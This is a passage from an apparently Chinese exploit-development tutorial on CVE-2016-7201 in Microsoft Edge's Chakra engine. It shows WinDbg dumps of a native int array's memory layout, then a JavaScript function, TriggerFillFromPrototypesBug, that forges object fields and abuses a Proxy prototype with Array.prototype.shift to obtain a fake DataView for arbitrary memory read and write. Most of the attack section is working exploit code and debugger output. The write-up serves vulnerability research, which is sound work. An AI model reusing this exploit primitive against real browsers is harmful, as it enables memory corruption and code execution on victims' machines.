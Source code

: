 0:024> ?38
Evaluate expression: 56 = 00000000`00000038
</code>
</pre>

这里的0x38恰恰是56，也就是传入的x的数据。而这些数据的起始地址与x object内存地址相差恰好是0x58，这也就是后面会用到的信息。
当然这个结果的验证还可以简单地修改一下x的内容，并查看相应的内存布局。

```JavaScript
var x = (new Array(0xaaaa, 0xaaab, 0xaaac, 0xaaad, 0xaaae, 0xaaaf, 0xaaba, 0xaabb, 0xaabc, 0xaabd, 0xaabe, 0xaabf, 0xaaca, 0xaacb, 0xaacc, 0xaacd)).slice();
```

<pre>
<code>
0:024> dq 1b10f5a7b60
000001b1`0f5a7b60  00007ff9`6b5838d8 000001b1`0f6eb040
000001b1`0f5a7b70  00000000`00000000 00000000`00000005
000001b1`0f5a7b80  00000000`00000010 000001b1`0f5a7ba0
000001b1`0f5a7b90  000001b1`0f5a7ba0 000001b1`0daff1c0
000001b1`0f5a7ba0  00000010`00000000 00000000`00000012
000001b1`0f5a7bb0  00000000`00000000 <b>0000aaab`0000aaaa</b>
000001b1`0f5a7bc0  <b>0000aaad`0000aaac 0000aaaf`0000aaae</b>
000001b1`0f5a7bd0  <b>0000aabb`0000aaba 0000aabd`0000aabc</b>
</code>
</pre>

关于JavascriptNativeIntArray的内存布局，可以用专门的方法进行分析，可以参考《[Exploit Development](http://expdev-kiuhnm.rhcloud.com/)》中[13.1节](http://expdev-kiuhnm.rhcloud.com/2015/05/31/ie10-reverse-engineering-ie/)，关于逆向IE中Array的分析方法。

### 再看看CVE-2016-7201能做什么
```JavaScript
function TriggerFillFromPrototypesBug(lo, hi)
{
    // Type* (which has TypeId)
    x[2] = lo;
    x[3] = hi;
    // +0x3C points to 0 (index 1) for bypassing isDetached check
    x[10] = (lo - 0x38)|0;
    x[11] = hi;
    // buffer length
    x[8] = 0x200;
    // buffer addr
    x[14] = (lo - 0x58)|0;
    x[15] = hi;
    var a = new Array(0x11111111, 0, 0x22222222, 0, 0x33333333, 0, lo, hi, 0x55555555, 0);
    var handler = {
        getPrototypeOf: function(target, name) {
            return a;
        }
    };
    var p = new Proxy([], handler);
    var b = [{}, [], "abc"];
    b.__proto__ = p;
    b.length = 4;
    a.shift.call(b);
    dv = b[2];
}
```
